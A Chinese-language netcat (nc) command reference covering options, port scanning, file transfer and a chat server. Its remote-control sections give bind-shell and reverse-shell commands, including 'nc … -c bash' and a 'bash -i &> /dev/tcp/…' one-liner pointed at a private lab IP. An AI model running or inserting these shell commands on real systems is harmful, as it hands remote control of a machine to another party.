 # nc

**nc命令** 全称**netcat**，用于TCP、UDP或unix域套接字(uds)的数据流操作，它可以打开TCP连接，发送UDP数据包，监听任意TCP 和UDP端口，同时也可用作做端口扫描，支持IPv4和IPv6，与Telnet的不同在于nc可以编写脚本。

### 语法

```shell
nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>]
[-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
```

### 选项

```bash
--4   只使用IPV4
-6    只使用IPV6
-c    使用tls连接或者监听
-D    启用socket调试开关
-l    使用监听模式，管控传入的资料。
-n    直接使用IP地址，而不通过域名服务器。
-r    乱数指定本地与远端主机的通信端口。
-u    使用UDP传输协议。
-v    显示指令执行过程。
-z    使用0输入/输出模式，只在扫描通信端口时使用。
-h    在线帮助
-g <网关>       设置路由器跃程通信网关，最多可设置8个。
-G <指向器数目>  设置来源路由指向器，其数值为4的倍数。
-i <延迟秒数>    设置时间间隔，以便传送信息及扫描通信端口。
-o <输出文件>    指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
-p <通信端口>    设置本地主机使用的通信端口
-s <来源位址>    设置本地主机送出数据包的IP地址。
-w <超时秒数>    设置等待连线的时间。
```

### 实例

#### **TCP端口扫描**

```bash
# 扫描192.168.0.3 的端口 范围是 1-100
[root@localhost ~]# nc -v -z -w2 192.168.0.3 1-100 
192.168.0.3: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.0.3] 80 (http) open
(UNKNOWN) [192.168.0.3] 23 (telnet) open
(UNKNOWN) [192.168.0.3] 22 (ssh) open

# **扫描UDP端口** 扫描192.168.0.3 的端口 范围是 1-1000
[root@localhost ~]# nc -u -z -w2 192.168.0.3 1-1000  
```

‍

#### **扫描指定端口**

```bash
[root@localhost ~]# nc -nvv 192.168.0.1 80 # 扫描 80端口
(UNKNOWN) [192.168.0.1] 80 (?) open
y  //用户输入
```

查看从服务器到目的地的出站端口 443 是否被防火墙阻止

```bash
nc -vz acme-v02.api.letsencrypt.org 443 -w2
# Ncat: Version 7.50 ( https://nmap.org/ncat )
# Ncat: Connected to 23.77.214.183:443.
# Ncat: 0 bytes sent, 0 bytes received in 0.07 seconds.
```

#### **文件传输**

```bash
# 接收方提前设置监听端口与要接收的文件名（文件名可自定义）：
nc -lp 8888 > node.tar.gz

# 传输方发文件：
nc -nv 192.168.75.121 8888  < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：192.168.75.121是接收方的ip地址。
```

```bash
# 如果希望文件传输结束后自动退出，可以使用下面的命令：
nc -lp 8888 > node.tar.gz
nc -nv 192.168.75.121 8888 -i 1 < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：-i 表示闲置超时时间
```

#### **远程控制**

```bash
# 正向控制，被控端主动设置监听端口及bash环境，控制端连接，如果有防火墙，需开放端口，否则会被拦截。
# 被控制端执行下面的命令：
nc -lvnp 8888 -c bash
# 控制端执行下面的命令：
nc 192.168.75.121 8888
```

```bash
# 反向控制，控制端设置监听端口，被控端主动连接控制端的ip及端口，并提供bash环境。
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控制端执行下面的命令：
nc 192.168.75.121 8888 -c bash
```

#### **反弹shell**

```bash
# 控制端执行下面的命令：
nc -lvnp 8888
```

```bash
# 被控端执行下面的命令:
bash -i &> /dev/tcp/192.168.75.121/8888 0>&1
```

#### 创建一个简单的聊天服务器

在两个或多个主机之间创建在线聊天的过程与传输文件的方法是基本相同的。

在第一台主机上启动一个 Netcat 进程以侦听端口 5555：

```bash
nc -l 5555
```

在第二台主机上，运行以下命令以连接到侦听端口：

```bash
nc first.host.com 5555
```

现在，如果你键入一条消息并按回车，它将同时显示在两台主机上。

要关闭连接，请键入 `CTRL+C`​。

